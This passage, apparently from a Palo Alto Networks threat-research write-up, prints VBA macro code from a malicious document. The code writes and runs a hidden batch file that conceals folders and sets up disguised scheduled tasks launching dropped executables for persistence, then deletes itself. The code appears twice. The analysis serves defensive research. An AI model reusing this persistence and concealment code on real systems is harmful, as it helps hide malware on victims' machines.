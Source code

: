 oFile.WriteLine ("SET /A RAND=%RANDOM% 10000 + 1")
oFile.WriteLine ("echo %COMPUTERNAME%-%RAND% >> 
%USERPROFILE%\Adobe\Driver\pdf\pid.txt")
oFile.WriteLine ("echo %COMPUTERNAME%-%RAND% >> 
<strong>%USERPROFILE%\Adobe\Driver\dwg\pid.txt")</strong>
oFile.WriteLine ("schtasks /delete /tn Winmgt_log /f")
oFile.WriteLine ("schtasks /delete /tn Yahoo_Drive /f")
oFile.WriteLine ("schtasks /create /sc minute /mo 10 /f /tn 
Winmgt_log /tr C:\Drivers\dphc.exe")
oFile.WriteLine ("schtasks /create /sc minute /mo 20 /f /tn 
Yahoo_Drive /tr C:\Drivers\Drive.vbs")
oFile.WriteLine ("ren C:\Drivers\Drive.txt Drive.vbs ")
oFile.WriteLine ("del %0")
oFile.Close
Set fso = Nothing
Set oFile = Nothing

    Dim OldName, NewName
    GivenLocation = "C:\Drivers\"
    OldName = "Audio.txt"
    <strong>NewName = "Audio.bat"</strong>
    On Error Resume Next
    Name GivenLocation & OldName As GivenLocation & NewName
    Dim RetVal
    RetVal = Shell("C:\Drivers\Audio.bat", vbHide)




1234567891011121314151617181920212223242526272829303132333435363738394041

Set oFile = fso.CreateTextFile("c:\Drivers\Audio.txt")oFile.WriteLine ("echo off")oFile.WriteLine ("md %USERPROFILE%\Adobe\Driver\pdf")oFile.WriteLine ("md %USERPROFILE%\Adobe\Driver\dwg")oFile.WriteLine ("md %USERPROFILE%\Daily\Backup\Files")oFile.WriteLine ("attrib +a +h +s %USERPROFILE%\Adobe")oFile.WriteLine ("attrib +a +h +s %USERPROFILE%\Daily")oFile.WriteLine ("attrib +a +h +s C:\Drivers")oFile.WriteLine ("del /f %USERPROFILE%\Adobe\Driver\pdf\pid.txt")oFile.WriteLine ("del /f %USERPROFILE%\Adobe\Driver\dwg\pid.txt" oFile.WriteLine ("SET /A %COMPUTERNAME%")oFile.WriteLine ("SET /A RAND=%RANDOM% 10000 + 1")oFile.WriteLine ("echo %COMPUTERNAME%-%RAND% >> %USERPROFILE%\Adobe\Driver\pdf\pid.txt")oFile.WriteLine ("echo %COMPUTERNAME%-%RAND% >> <strong>%USERPROFILE%\Adobe\Driver\dwg\pid.txt")</strong>oFile.WriteLine ("schtasks /delete /tn Winmgt_log /f")oFile.WriteLine ("schtasks /delete /tn Yahoo_Drive /f")oFile.WriteLine ("schtasks /create /sc minute /mo 10 /f /tn Winmgt_log /tr C:\Drivers\dphc.exe")oFile.WriteLine ("schtasks /create /sc minute /mo 20 /f /tn Yahoo_Drive /tr C:\Drivers\Drive.vbs")oFile.WriteLine ("ren C:\Drivers\Drive.txt Drive.vbs ")oFile.WriteLine ("del %0")oFile.CloseSet fso = NothingSet oFile = Nothing     Dim OldName, NewName    GivenLocation = "C:\Drivers\"    OldName = "Audio.txt"    <strong>NewName = "Audio.bat"</strong>    On Error Resume Next    Name GivenLocation & OldName As GivenLocation & NewName    Dim RetVal    RetVal = Shell("C:\Drivers\Audio.bat", vbHide)





 

Get updates from  Palo Alto Networks!
Sign up to receive the latest news, cyber threat intelligence and research from us
